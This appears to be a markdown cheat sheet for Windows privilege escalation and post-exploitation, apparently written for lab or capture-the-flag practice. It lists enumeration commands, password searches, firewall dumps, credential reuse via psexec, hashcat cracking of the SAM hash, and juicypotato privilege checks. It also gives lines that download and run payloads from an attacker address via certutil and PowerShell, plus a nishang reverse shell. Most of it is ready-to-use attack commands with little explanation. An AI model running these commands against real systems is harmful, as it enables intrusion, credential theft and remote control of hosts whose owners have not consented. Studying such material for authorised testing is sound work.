 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Download files using powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/shell.exe', 'c:\Users\Public\Downloads\shell.exe')"
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```

## SAM file path
```
C:\Windows\System32\Config
```

## Crack windows hash using hashcat
```
hashcat -a 0 -m 1000 cred.hash rockyou.txt --force
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

## Use nishang script to gain reverse shell
```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

